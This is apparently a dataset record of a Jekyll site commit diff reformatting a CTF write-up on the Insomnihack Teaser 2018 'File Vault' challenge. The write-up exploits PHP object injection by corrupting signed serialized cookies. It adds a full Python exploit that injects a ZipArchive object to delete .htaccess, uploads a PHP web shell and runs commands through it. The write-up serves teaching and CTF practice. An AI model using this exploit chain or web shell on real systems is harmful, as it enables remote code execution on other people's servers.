

Before and after one commit to Corb3nik/Corb3nik.github.io, a Jekyll site: the page built from _posts/insomnihack-teaser-2018/2018-01-20-file-vault.md, in a window 1280 px wide and 1400 px high, scrolled down 6926 px. Shown: the whole window, without its empty margins (208-1066 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Reformat images and corrects typos and more stuff..

````diff
--- a/_config.yml
+++ b/_config.yml
@@ -18,7 +18,6 @@ sass:
   style: :compressed
   sass_dir: _sass
 
-
 # Markdown
 markdown: kramdown
 kramdown:
--- a/_posts/insomnihack-teaser-2018/2018-01-20-file-vault.md
+++ b/_posts/insomnihack-teaser-2018/2018-01-20-file-vault.md
@@ -1,7 +1,7 @@
 ---
 layout: post
 title: File Vault
-category: insomnihack-teaser-2018
+category: Insomnihack-Teaser-2018
 ---
 
 # Description
@@ -12,13 +12,13 @@ You can securely store some of your files on our systems, and retrieve some data
 
 # The Challenge
 
-File Vault is a sandboxed file manager allowing users to upload files and
-view file metadata. This challenge has been my favorite during the Insomnihack
-Teaser. Even if the source code was provided, this challenge showed a lot of
+**File Vault** is a sandboxed file manager allowing users to upload files and
+view file metadata. This challenge has been my favorite during the **Insomnihack
+Teaser**. Even if the source code was provided, this challenge showed a lot of
 originality.
 
-As mentionned above, the challenge author provided us with the source code of the
-application. A user has access to five actions :
+As mentionned above, the challenge author provided us with the **source code** of the
+application. A user has access to five **actions** :
 
 - `home` (viewing the main page)
 - `upload` (uploading a new file)
@@ -44,7 +48,7 @@ if(!is_file($sandbox_dir.'/.htaccess'))
   file_put_contents($sandbox_dir.'/.htaccess', "php_flag engine off");
 ```
 
-## How the Webapp Works
+# How the Webapp Works
 
 Each uploaded file is represented by a `VaultFile` object in PHP:
 
@@ -79,10 +83,10 @@ properties :
 When viewing a file via the `open` action, the `fakename` is used for display
 purposes. The actual file on the filesystem is the `realname`.
 
-The `VaultFile` object is then added to an array, serialized via a custom
-`s_serialize()` function and returned to the user through cookies.
-When a user wishes to view his files, the web app fetches the user'
-s cookie, deserializes the `VaultFile` object via `s_unserialized()`
+The `VaultFile` object is then added to an array, **serialized** via a custom
+`s_serialize()` function and returned to the user through a `file` **cookie**.
+When a user wishes to view his files, the web app fetches the user's
+cookie, **deserializes** the array of `VaultFile` objects via `s_unserialized()`
 and processes it accordingly.
 
 Here's is what a `VaultFile` object looks like :
@@ -137,22 +141,22 @@ case 'upload':
   break;
 ```
 
-At this point, its fair to assume that we're dealing with a PHP object injection
-vulnerability, as a user-controlled cookie is being sent straight to the `s_unserialize()` function.
+At this point, it's fair to assume that we're dealing with a **PHP object injection**
+vulnerability, since a user-controlled cookie is being sent straight to the `s_unserialize()` function.
 
-**Note**: I won't go into the details of how object injection works, but here is my go-to reference
+**Note**: I won't go into the details of how object injections work, but here is my go-to reference
 on the subject: [Practical PHP Object Injection](https://www.insomniasec.com/downloads/publications/Practical%20PHP%20Object%20Injection.pdf)
 
-## s_serialize() and s_unserialize()
+# s_serialize() and s_unserialize()
 
 Early in the challenge, I assumed that this would be a typical object
 serialization challenge. Yet upon reading the source code, I soon understood
 why only 5 teams so far solved it.
 
 Firstly, even if the `s_*serialize` functions _do_ accept user-controlled parameters,
-the serialied object is signed and validated against a `$secret`. In the event
-of an invalid signature in the `s_unserialize()` function, the unserialized
-object is never returned :
+the serialized object is **signed** and **validated** against a `$secret`. In
+the event of an invalid signature in the `s_unserialize()` function, the unserialized
+object is **never** returned :
 
 ```php
 function s_serialize($a, $secret) {
@@ -168,17 +172,17 @@ function s_unserialize($a, $secret) {
 }
 ```
 
-Therefore, we _can_ pass arbitrary PHP objects to `unserialize()`, but we _can't_
+Therefore, we can pass arbitrary PHP objects to `unserialize()`, but we can't
 manipulate them since they will never be returned.
 
 Furthermore, the source code doesn't disclose any magic methods such as `__wakeup()`
 or `__destruct()`, which means we won't be able to win just with the `unserialize()`
-call...
+call.
 
 Lastly, even if we did manage to forge properly signed serialized objects, there are
-no methods allowing us to arbitrarly read/write files.
+**no methods allowing us to arbitrarly read/write files**.
 
-## The Bug - Corrupting Serialized Objects
+# The Bug - Corrupting Serialized Objects
 
 The vulnerability in the application, which makes this challenge so interesting,
 is in the following code :
@@ -191,9 +195,9 @@ function s_serialize($a, $secret) {
 };
 ```
 
-The author added `str_replace()` call to filter out `../` sequences. The issue
-here is that the `str_replace` call is performed on a *serialized object*,
-instead of a string.
+The author added a `str_replace()` call to filter out `../` sequences. The issue
+here is that the `str_replace` call is performed on a **serialized object**,
+instead of a **string**.
 
 Why does this matter? Here's a snippet of a serialized array.
 ```php
@@ -221,10 +225,10 @@ of its value :
 
 ```php
 a:2:{i:0;s:3:"./";i:1;s:5:"hello";}
-              --- <== The value parsed by unserialize() is ./"
+           ^  --- <== The value parsed by unserialize() is ./"
 ```
 
-The more `../` you add, the more characters end up being parsed by `unserialize()`.
+The more `../` you add, the **more** characters end up being parsed by `unserialize()`.
 
 ```php
 php > $array = array();
@@ -235,7 +239,7 @@ a:2:{i:0;s:36:"../../../../../../../../../../../../";i:1;s:5:"hello";}
 
 php > echo str_replace("../","./", serialize($array));
 a:2:{i:0;s:36:"././././././././././././";i:1;s:5:"hello";}
-               ------------------------------------ <=== Parsed by unserialize()
+           ^^  ------------------------------------ <=== Parsed by unserialize()
 
 php > unserialize('a:2:{i:0;s:36:"././././././././././././";i:1;s:5:"hello";}');
 PHP Notice:  unserialize(): Error at offset 51 of 58 bytes in php shell code on line 1
@@ -243,20 +247,23 @@ PHP Notice:  unserialize(): Error at offset 51 of 58 bytes in php shell code on
 Notice: unserialize(): Error at offset 51 of 58 bytes in php shell code on line 1
 ```
 
-In the context of our challenge, we can reproduce this behavior by renaming
+In the context of our challenge, we can reproduce this behavior by **renaming**
 a previously uploaded file with a `../` sequence. The web application will
-happily rename and _sign_ a new cookie containing the corrupted object.
+happily rename and **sign** a new cookie containing the corrupted object.
 
-## Forging and Signing Arbitrary Objects
+# Forging and Signing Arbitrary Objects
 
 Now that we can **sign** corrupted serialized objects, we need to figure out
-how to sign _valid_ objects using this bug.
+how to sign **valid** objects using this bug.
 
 Notice how in the last example above, by adding multiple `../` strings, we
-end up overflowing on the next object (`"hello"`) in the array.
+end up **overflowing** on the **next object** (`"hello"`) in the array.
 
-In the event where we control the `hello` string, its just a matter
-of replacing `hello` with the end of a valid serialized object.
+In the event where we control the `hello` string, it's just a matter
+of replacing `hello` with the **a partial serialized object**.
+Think of it as SQL injection, where we must match the quotes on both ends
+to keep the query valid.
+
 Here's an example :
 
 ```php
@@ -281,12 +288,12 @@ Array
 
 As you can see, a new `"Injected"` string has been added to the array upon
 deserialization. We used a string in this example `"i:1;s:8:"Injected"`,
-but any primitive/object would work here too.
+but **any primitive/object** would work here too.
 
-In File Vault, we pretty much have the same situation. All we need is an array
-in which we corrupt the first object and we control the second object.
+In File Vault, we pretty much have the same situation. All we need is an **array**
+in which we **corrupt the first object** and we **control the second object**.
 
-We can achieve this by uploading two files. Just like the example
+We can achieve this by **uploading two files**. Just like the example
 above, the plan is the following :
 - Upload two files, creating two VaultFile objects
 - Rename the `fakename` of VaultFile #2 with a partial serialized object
@@ -296,16 +303,16 @@ above, the plan is the following :
 Note that since we're using the normal functionalities of the web app
 to do this, we don't have to worry about signing.
 
-### What now?
+# What now?
 
 We are now able to forge our own serialized objects with
 arbitrary data.
 
 At this point, the challenge becomes a typical object injection challenge,
-with the additional headaches of not having any magic methods or interesting
-functions...
+with the additional headaches of **not having any magic methods** or **interesting
+functions**...
 
-So far, we've used pretty much all of the features of the webapp with the exception
+So far, we've used pretty much all of the features in the webapp with the exception
 of one : `open`. Here is the implementation :
 
 ```php
@@ -318,18 +325,34 @@ case 'open':
   exit;
 ```
 
-`Open` essentially takes an object from our `$files` array and calls the
-`open()` function on it using two parameters : `$object->fakename` and
+`Open` essentially takes an **object** from our `$files` array and calls the
+`open()` function on it using **two parameters** : `$object->fakename` and
 `$object->realname`.
 
-Knowing that we can inject any object in our `$files` array (as demonstrated
+Knowing that we can inject **any object** in our `$files` array (as demonstrated
 by the `"Injected"` string from earlier), what would happen if we inject
 something other than a `VaultFile` object?
 
-The method name `open()` is pretty generic. There's bound to be a standard
-class in PHP which has an `open()` method. Since we can inject our own
-objects, we also control the parameters of the `open()` call
-(`fakename` and `realname`).
+The method name `open()` is pretty generic. If we are able to find a standard
+class in PHP which has an `open()` method, we can trick the webapp into
+calling the open() method of that class instead of the `VaultFile` method.
+
+Basically, instead of this behaviour :
+```php
+<?php
+$array = new array();
+$array[] = new VaultFile();
+$array[0]->open($array[0]->fakename, $array[0]->realname);
+```
+
+... we can trick the webapp to do this :
+
+```php
+<?php
+$array = new array();
+$array[] = new SomeOtherFile();
+$array[0]->open($array[0]->fakename, $array[0]->realname);
+```
 
 Let's list all classes containing an `open()` method :
 
@@ -353,24 +376,26 @@ XMLReader->open
 ZipArchive->open
 ```
 
-We have four classes which have an `open()` method. If we inject a serialized
-object of any one of these classes in our `$files` array, we can call
+We have four classes which have an `open()` method. If we **inject** a **serialized
+object** of any one of these classes in our `$files` array, we can call
 their method via the `open` action with the parameters of our choice.
 
-Most of these classes manipulate files. Thinking back to our challenge,
-the only file that is worth playing around with is the `.htaccess`
-preventing us from executing PHP. If we can somehow delete the
-`.htaccess` file, we win.
+Luckily for us, most of these classes **manipulate files**.
+Thinking back to our challenge, the only file worth playing around
+with is the `.htaccess` preventing us from **executing PHP**. If we can somehow
+delete the `.htaccess` file, we win.
 
-At this point, we can test locally the behavior of each class.
-_I_ noticed that the `ZipArchive->open` method **deletes* the target
-file if we give a `"9"` as a second parameter (don't ask me why...).
+At this point, we can locally test the behavior of each class.
+After some time, I noticed that the `ZipArchive->open` method **deletes** the target
+file if we give a `"9"` as a **second parameter** (don't ask me why...).
 
-## Getting a shell
+We should now be able to use ZipArchive->open() to delete the `.htaccess` file.
+
+# Getting a shell
 
 Let's develop our final payload.
 
-I created a python script to automate the actions of the web app.
+I created a **python script** to automate the actions of the web app.
 
 ```python
 #!/usr/bin/env python2
@@ -402,7 +427,7 @@ def open_file(index):
     return s.get(URL, params=params).text
 ```
 
-Let's prepare our VaultFile objects by uploading two files :
+Let's prepare our `VaultFile` objects by **uploading two files** :
 ```python
 upload("A")
 upload("B")
@@ -410,16 +435,12 @@ upload("B")
 
 The webapp will send us the following cookie :
 ```php
-a:2:{i:0;O:9:"VaultFile":2:{s:8:"fakename";s:1:"A";s:8:"realname";s:44:
-"911aaba06e0a1f2c3c8072f3390db020d7c82b7a.txt";}i:1;O:9:"VaultFile":2:
-{s:8:"fakename";s:1:"B";s:8:"realname";s:44:"911aaba06e0a1f2c3c8072f3
-390db020d7c82b7a.txt";}}ce27b112cf5429bf6f09a905de8f4d110ab1ce6d39f27
-d4ec0226ab47c76721a
+a:2:{i:0;O:9:"VaultFile":2:{s:8:"fakename";s:1:"A";s:8:"realname";s:44:"911aaba06e0a1f2c3c8072f3390db020d7c82b7a.txt";}i:1;O:9:"VaultFile":2:{s:8:"fakename";s:1:"B";s:8:"realname";s:44:"911aaba06e0a1f2c3c8072f3390db020d7c82b7a.txt";}}ce27b112cf5429bf6f09a905de8f4d110ab1ce6d39f27d4ec0226ab47c76721a
 ```
 
-Our malicious partial serialization object will be at the start of the second
-`fakename`. The distance between the first `fakename` and the second is 115
-characters.
+We want our malicious **partial** serialized object will be at the
+start of the **second** `fakename`. The distance between the first `fakename`
+and the second is 115 characters (count the distance between `"A"` and `"B"`).
 
 Therefore, to reach `fakename` #2, we need to rename the first
 `fakename` with `"../" * 115`. We'll do this later.
@@ -427,7 +448,7 @@ Therefore, to reach `fakename` #2, we need to rename the first
 
 ---
 
-We'll want to prepare a ZipArchive object to inject in this cookie.
+We'll want to prepare a `ZipArchive` object to inject in this cookie.
 Let's create one:
 
 ```php
@@ -438,17 +459,18 @@ php > echo serialize($zip);
 O:10:"ZipArchive":7:{s:8:"fakename";s:58:"sandbox/ea35676a8bfa0eeaac525ae05ab7fa2cce6616e2/.htaccess";s:8:"realname";s:1:"9";s:6:"status";i:0;s:9:"statusSys";i:0;s:8:"numFiles";i:0;s:8:"filename";s:0:"";s:7:"comment";s:0:"";}
 ```
 
-Since our goal is to call `ZipArchive->open(".htaccess", "9")`, we added a `fakename` and `realname` property containing our parameters.
+Since our goal is to call `ZipArchive->open(".htaccess", "9")`, we added a `fakename` and `realname` property containing the **parameters** we want to use.
 
-If we inject our object as is, we will be left with a trailing `realname`.
+If we inject our object as is, we will be left with a **trailing** `realname`.
 This might clash with the forged `realname` we created above.
 
 ```php
-";s:8:"realname";s:44:"911aaba06e0a1f2c3c8072f3390db020d7c82b7a.txt
+"...Our malicious ZipArchiver]";s:8:"realname";s:44:"911aaba06e0a1f2c3c8072f3390db020d7c82b7a.txt"
+                              ------------------------------(67 chars)---------------------------
 ```
 
 We can remove the trailing `realname` by updating the size of the serialized
-`ZipArchive->comment` parameter. The size of the trailing section is 67,
+`ZipArchive->comment` parameter. The size of the **trailing section** is 67,
 so we update the `comment` size accordingly.
 
 ```php
@@ -468,24 +490,90 @@ serialized_injection = '";s:1:"e";s:0:"";}i:1;O:10:"ZipArchive":7:{s:8:"fakename
 rename(1, serialized_injection)
 ```
 
-Let's now rename our first `VaultFile->fakename` :
+Let's now **rename** our first `VaultFile->fakename` :
 ```python
 newname = "../" * 115 # To overwrite fakename #2
 rename(0, newname)
 ```
 
-In the end, we'll receive the following cookie :
+In the end, we'll receive the following **cookie** :
 ```php
 a:2:{i:0;O:9:"VaultFile":2:{s:8:"fakename";s:345:"./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././";s:8:"realname";s:44:"911aaba06e0a1f2c3c8072f3390db020d7c82b7a.txt";}i:1;O:9:"VaultFile":2:{s:8:"fakename";s:245:"";s:1:"e";s:0:"";}i:2;O:10:"ZipArchive":7:{s:8:"fakename";s:58:"sandbox/ea35676a8bfa0eeaac525ae05ab7fa2cce6616e2/.htaccess";s:8:"realname";s:1:"9";s:6:"status";i:0;s:9:"statusSys";i:0;s:8:"numFiles";i:0;s:8:"filename";s:0:"";s:7:"comment";s:67:"";s:8:"realname";s:44:"911aaba06e0a1f2c3c8072f3390db020d7c82b7a.txt";}}6f72e63954ac6e08c3ebc6e4abdff60956a82d9ebc556873410c9ef456098b69
 ```
 
-Proceed to uploading a shell (which won't be executed as the .htaccess file
-has not been deleted yet):
+Proceed to **uploading** a **shell** (which won't be executed as the **.htaccess** file
+has **not been deleted yet**):
+
 ![before_shell](/assets/img/insomnihack-teaser-2018/before_shell.png)
 
-`Unserialize()` the cookie above and trigger the `ZipArchive->open()` function call :
+`Unserialize()` the **cookie** above and trigger the `ZipArchive->open()` function call :
+
 ![delete_htaccess](/assets/img/insomnihack-teaser-2018/delete_htaccess.png)
 
-And finally, revisit the shell again!
+And finally, revisit the **shell** again!
 
 ![shell](/assets/img/insomnihack-teaser-2018/after_shell.png)
+
+
+**FLAG : INS{gr4tz_f0r_y0ur_uns3ri4l1z1ng_tal3nts}**
+
+# Full Solution
+
+Here is my full solution in Python.
+
+```python
+#!/usr/bin/env python2
+
+import requests
+import urllib
+
+URL = "http://filevault.teaser.insomnihack.ch/"
+s = requests.Session()
+
+def upload(name, content="GARBAGE"):
+    files = {'vault_file': (name, content)}
+    params = { "action" : "upload" }
+    s.post(URL, params=params, files=files)
+
+def rename(index, new_name):
+    data = { "newname" : new_name }
+    params = {
+        "action" : "changename",
+        "i" : index
+    }
+    s.post(URL, params=params, data=data)
+
+def open_file(index):
+    params = {
+        "action" : "open",
+        "i" : index
+    }
+    return s.get(URL, params=params).text
+
+newname = "../" * 115 # To overwrite fakename #2
+serialized_injection = '";s:1:"e";s:0:"";}i:1;O:10:"ZipArchive":7:{s:8:"fakename";s:58:"sandbox/b630d75c8dcfee915aec97cc3bb5d1d4c782345b/.htaccess";s:8:"realname";s:1:"9";s:6:"status";i:0;s:9:"statusSys";i:0;s:8:"numFiles";i:0;s:8:"filename";s:0:"";s:7:"comment";s:67:"'
+
+# Upload 2 files
+upload("A")
+upload("B")
+
+# Rename to inject serialized ZipArchiver
+rename(1, serialized_injection)
+rename(0, newname)
+
+# Upload a shell
+upload("shell.php", "<?php system($_GET[cmd]); ?>")
+
+# Cookie received
+print " === Cookie === "
+print urllib.unquote(s.cookies['files'])
+
+# Trigger .htaccess removal
+open_file(1)
+
+shell_url = URL + "sandbox/b630d75c8dcfee915aec97cc3bb5d1d4c782345b/fe95113d494997061044e7142af542e84f3eebbf.php"
+
+response = requests.get(shell_url, params={"cmd" : "cat /flag"})
+flag = response.text
+print flag
+```
--- a/_sass/overwrite.scss
+++ b/_sass/overwrite.scss
@@ -2,7 +2,8 @@
   width:  600px !important;
   border: 2px solid black !important;
   height: auto !important;
-  margin: 0 auto;
+  display: block !important;
+  margin: 0 auto !important;
 }
 
 .wrapper {
````
Also changed, not shown: other parts of _posts/insomnihack-teaser-2018/2018-01-20-file-vault.md (+8 -4 lines), assets/img/insomnihack-teaser-2018/main.png (added).
